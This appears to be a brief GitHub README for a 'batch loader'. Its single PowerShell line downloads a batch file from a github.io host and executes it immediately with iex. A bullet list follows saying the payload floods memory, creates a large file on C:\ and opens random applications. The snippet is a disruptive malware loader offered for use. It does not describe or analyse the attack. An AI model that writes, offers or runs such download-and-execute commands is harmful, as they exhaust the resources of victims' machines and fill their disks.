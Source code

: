 batch loader
----------------------------------
# b1 loader 
```bat
powershell -Command "iex '& { $(iwr -useb \"https:\\luzisdev.github.io\b1.bat") }'"
```
- flood memory
- creat big file at C:\
- open randoms application
----------------------------------
